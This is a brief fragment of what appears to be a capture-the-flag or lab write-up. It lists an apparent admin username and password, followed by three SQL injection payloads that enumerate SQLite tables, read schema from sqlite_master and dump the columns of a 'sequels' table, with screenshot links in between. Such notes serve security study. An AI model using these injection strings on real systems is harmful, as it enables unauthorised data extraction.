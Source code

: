 admin

EhCNSWzzFP6sc7gB

hallo' UNION SELECT name, name FROM sqlite_master WHERE type ='table' --

![](../img/2020-12-08_15-26-52.png)

1' union SELECT name, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='sequels' -- 

![](../img/2020-12-08_15-52-30.png)

1' union SELECT title text, kid age FROM sequels -- 
